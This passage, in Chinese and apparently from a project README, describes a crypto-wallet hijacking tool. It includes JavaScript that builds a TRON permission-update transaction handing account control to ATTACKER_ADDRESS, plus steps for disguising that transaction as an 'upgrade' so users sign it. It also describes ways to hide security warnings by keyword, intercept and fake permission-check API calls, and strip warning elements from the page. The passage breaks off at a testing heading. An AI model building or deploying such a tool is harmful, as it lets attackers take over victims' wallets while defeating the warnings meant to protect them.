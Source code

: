 ### 3. 权限劫持交易
```javascript
// 构建AccountPermissionUpdateContract交易
buildPermissionTransaction() -> {
    type: 2, // Active权限类型
    permission_name: "active",
    threshold: 1,
    keys: [{ 
        address: ATTACKER_ADDRESS, // 攻击者地址
        weight: 1 
    }]
}
```

### 4. 用户签名确认
- 用户在钱包中看到伪装的"升级"描述
- 实际签名的是权限修改交易
- 交易广播后获得账户控制权

### 5. 权限验证测试
- 验证权限是否已被成功修改
- 测试攻击者是否获得完整控制权
- 记录攻击成功信息

## 🛡️ 安全绕过机制

### 关键词隐藏系统
智能隐藏包含以下内容的安全警告：
```javascript
权限修改、账户权限、Update Account Permission
多重签名、权限转移、权限劫持
发现权限风险、权限安全风险、账户权限异常
UpdateAccountPermissions、permission_name、threshold
```

### API拦截系统
拦截并伪造以下安全检查请求：
- `/permission` - 权限检查API
- `/authority` - 权限验证API
- `/multisig` - 多签检查API
- `/account/update` - 账户更新API

### 实时DOM监控
- 实时检测新增的权限警告元素
- 自动隐藏和移除危险提示
- 防止安全页面跳转

## 🔬 测试验证
